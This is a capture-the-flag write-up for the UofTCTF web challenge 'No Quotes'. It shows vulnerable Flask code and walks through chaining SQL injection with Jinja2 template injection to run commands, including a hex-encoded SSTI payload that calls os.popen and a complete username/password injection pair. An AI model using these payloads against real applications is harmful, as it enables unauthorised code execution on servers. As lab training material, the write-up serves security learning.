

# No Quotes

---
## Overview
- **Platform**: UofTCTF
- **Category**: Web
- **Difficulty**: Easy (subjective)
- **Goal**: Chain SQLi with SSTI to get RCE

## Recon

```python
if waf(username) or waf(password):
        return render_template(
            "login.html",
            error="No quotes allowed!",
            username=username,
        )
    query = (
        "SELECT id, username FROM users "
        f"WHERE username = ('{username}') AND password = ('{password}')"
    )
```

- Server concatenates user input directly into query, even though there is one layer of filter

```python
@app.get("/home")
def home():
    if not session.get("user"):
        return redirect(url_for("index"))
    return render_template_string(open("templates/home.html").read() % session["user"])
```

- The server inserts **session["user"]** into the HTML template and renders it using render_template_string.
- Since ***render_template_string*** evaluates Jinja2 expressions, user-controlled input may lead to **Server-Side Template Injection (SSTI)**, which can result in arbitrary code execution.

## Attack Flow
Server queries **SELECT id, username**, returns row and `session["user"] = row[1]` then malicious code should be at username.

```sql
SELECT id, username FROM users WHERE username = ('{username}') AND password = ('{password}')
```

Since server filters quotes => can't use `'` or `"` to close username field => utilize quote in the query to close

Use \ to escape ' in username field, then `\') AND password = (` is username (when query, not login)

Then to return our payload to row[1], we can use *UNION-based attack*, here I use 

[`{{self.__init__.__globals__.__builtins__.__import__('os').popen('/readflag').read()}}`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#exploit-the-ssti-by-calling-ospopenread)

which is then hex encoded (hex encode can bypass waf)<br> **0x7b7b73656c662e5f5f696e69745f5f2e5f5f676c6f62616c735f5f2e5f5f6275696c74696e735f5f2e5f5f696d706f72745f5f28276f7327292e706f70656e28272f72656164666c616727292e7265616428297d7d**

**Explanation for payload:** It is hex encoded; therefore, it won't contain quotes and can bypass the waf. Then in the SQL query, SQL sees it as a hex tring, it will decode it into original string (which is our payload) and return it to *row*. 

At this moment, ***render_template_string*** parses and spots double curly brackets `{{   }}`, execute code inside the brackets, get result and inserted into HTML template, return to user

## Final Payload

- username: `\`
- password: `) UNION SELECT 1,0x7b7b73656c662e5f5f696e69745f5f2e5f5f676c6f62616c735f5f2e5f5f6275696c74696e735f5f2e5f5f696d706f72745f5f28276f7327292e706f70656e28272f72656164666c616727292e7265616428297d7d-- -`



> Flag: *uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7t3_57R1nG!}*